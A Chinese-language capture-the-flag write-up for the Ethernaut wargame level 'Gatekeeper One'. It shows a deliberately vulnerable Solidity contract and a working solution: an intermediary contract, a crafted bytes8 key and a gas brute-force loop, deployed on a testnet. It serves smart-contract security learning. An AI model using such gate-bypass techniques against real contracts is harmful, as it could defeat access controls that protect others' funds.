# level 13: Gatekeeper One

## 1. 问题

要求你成功调用 `GatekeeperOne` 合约的 `enter` 函数，函数成功执行，可以通过函数内的所有校验。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

## 2. 解法

函数有3个 `modifier`, 我们只要分别通过这个校验即可

### 2.1. `gateOne`

1. `gateOne` 只校验 `msg.sender != tx.origin`, 我们只要通过一个中间合约来调用 `GatekeeperOne` 合约即可通过这个校验


### 2.2. `gateThree` 
2. 我们先看 `gateThree`, 他需要入参 `_gateKey` 满足几个类型转换结果。我们用chisel做一下测试：

```solidity
// 测试一下截取情况
bytes8 _gateKey=hex"0102030405060708";
// 看下几个require语句中左边的目标值
uint32 left = uint32(uint64(_gateKey))
// 看下第一个require右边的值
uint16 right1 = uint16(uint64(_gateKey))
// 看下第二个require右边的值
uint64 right2 = uint64(_gateKey)
// 随便找一个随机的地址，看下第三个require右边的值
uint16 right3 = uint16(uint160(address(bytes20(hex"D5691358Aa1b5eBB8af26Ad0Aba3CBD74b31690a"))))
```

![](../../resources/img/level13_gatekeeperone/cut.png)

> [!NOTE]
> 通过观察上面的结果我们发现:
> * left和right1只在 `0506` 所在的2个字节处理不一样，如果想要第一个require满足，我们只要将 `_gateKey` 的这2个字节设置为0
> * left和right2在 `05060708`这四个字节处理是一样的，所以如果想要第二个require满足，也就是想要left不等于right，那么 `_gateKey` 的前4个字节不能都为0
> * right3会把原始地址的最后2个字节保留，所以如果第三个require要满足，如果想要left和right3相等，那么 `_gateKey` 的最后2个字节要和 `tx.orign`, 也就是我们的EOA地址一致

3. 我们使用的EOA地址结尾为 `fB2c`, 所以我们设置的 `_gateKey` 为 `0x010203040000fb2c`


### 2.3. `gateTwo`
4. 我们最后看`gateTwo`。 他要求 `gasleft() % 8191 == 0`。一方面我们可以通过 `GatekeeperOne.call{gas: XXX}(abi.encodeWithSignature("enter(bytes8)", YYYY))` 来设置 `enter` 函数的总 gas。

5. 因为函数的入参传递等操作也可能消耗gas，所以我们很难直接估算出一个精确的gas。所以我们直接部署一个合约，暴力尝试：

```solidity
contract GatekeeperBridge {
    GatekeeperOne private gatekeeperone;

    constructor(address _gatekeeperone) {
        gatekeeperone = GatekeeperOne(_gatekeeperone);
    }

    function myCall(bytes8 _gateKey) external {
        // console.log("mycall tx.origin: %s, msg.sender: %s", tx.origin, msg.sender);
        for (uint256 gas1 = 0; gas1 < 8000; gas1++) {
            try gatekeeperone.enter{gas: 8191*3 + gas1}(_gateKey) {
                // console.log("target gas: %s", gas1);
                break;
            } catch (bytes memory reason) {
                // console.log("revert reason: %s", string(reason));
                continue;
            }
        }
    }
}
```

6. 注意这个可能会消耗很多的gas。因为只有尝试到正确的 `gas1` 的值才会停止。所以我们写一个单测 [Level13_localTest.t.sol](../../test/level13/Level13_localTest.t.sol) 估算一下 `gas1` 的范围，得到相对靠谱的：

```bash
forge test -vv --match-contract Level13Test
```

![](../../resources/img/level13_gatekeeperone/script1.png)

7. 所以我们可以优化这个循环，改成从200开始： `for (uint256 gas1 = 200; gas1 < 300; gas1++) {`

8. 在 remix 中编译并且部署这个合约， 交易地址 [0x8af8f7a9081fa071f87f2d79d7248143558c2228d9b23fc6e469b47ea36bbefd](https://sepolia.etherscan.io/tx/0x8af8f7a9081fa071f87f2d79d7248143558c2228d9b23fc6e469b47ea36bbefd)

9. 在 remix 中调用 `myCall` 接口，触发执行，交易地址 [0x8e2445887064bf108faf6a423b566f06769d40d96896edd297f8c7c37bc11419](https://sepolia.etherscan.io/tx/0x8e2445887064bf108faf6a423b566f06769d40d96896edd297f8c7c37bc11419)

10. 点击 `submit instance`， 提交通过！

| [⬅️ level12 Privacy](../level12_privacy/README.md) | [level14 Gatekeeper Two ➡️](../level14_gatekeeper_two/README.md) |
|:------------------------------|--------------------------:|